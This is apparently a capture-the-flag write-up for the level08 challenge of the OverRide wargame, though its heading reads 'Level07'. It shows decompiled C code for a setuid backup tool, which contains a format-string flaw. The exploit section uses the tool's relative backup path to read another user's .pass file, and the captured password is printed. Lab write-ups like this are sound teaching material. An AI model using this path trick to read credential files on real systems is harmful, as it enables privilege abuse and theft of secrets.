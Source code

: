 # Level07

## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>

__uint64_t log_wrapper(FILE *a1, const char *hardCoded, const char *argv1)
{
  char dest[264]; 
  __uint64_t v6; 

  v6 = __readfsqword(0x28u);
  strcpy(dest, hardCoded);
  snprintf(&dest[strlen(dest)], 254 - strlen(dest), argv1);
  dest[strcspn(dest, "\n")] = 0;
  fprintf(a1, "LOG: %s\n", dest);
  return __readfsqword(0x28u) ^ v6;
}

int  main(int argc, const char **argv, const char **envp)
{
  FILE *logFile; 
  FILE *stream; 
  int fd; 
  char buf; 
  char dest[104]; 

  buf = -1;
  if ( argc != 2 )
    printf("Usage: %s filename\n", *argv);
  logFile = fopen("./backups/.log", "w");
  if ( !logFile )
  {
    printf("ERROR: Failed to open %s\n", "./backups/.log");
    exit(1);
  }
  log_wrapper(logFile, "Starting back up: ", argv[1]);
  stream = fopen(argv[1], "r");
  if ( !stream )
  {
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
  }
  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, 193, 432LL);
  if ( fd < 0 )
  {
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
  }
  while ( 1 )
  {
    buf = fgetc(stream);
    if ( buf == -1 )
      break;
    write(fd, &buf, 1uLL);
  }
  log_wrapper(logFile, "Finished back up ", argv[1]);
  fclose(stream);
  close(fd);
  return 0;
}
```

## Explanation

- This program seems to produce backups of existing files in a `./backups` folder.

- So immediately, we tried to launch it with the path of the .pass file:
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

- The problem here is that we don't have rights on the `./backups` folder so our backup of .pass cannot be created.

- After exploring several possibilities, we moved to /tmp where we can do anything we want and did the following exploit.

## Exploit 

```
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups//home/users/level09/
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

```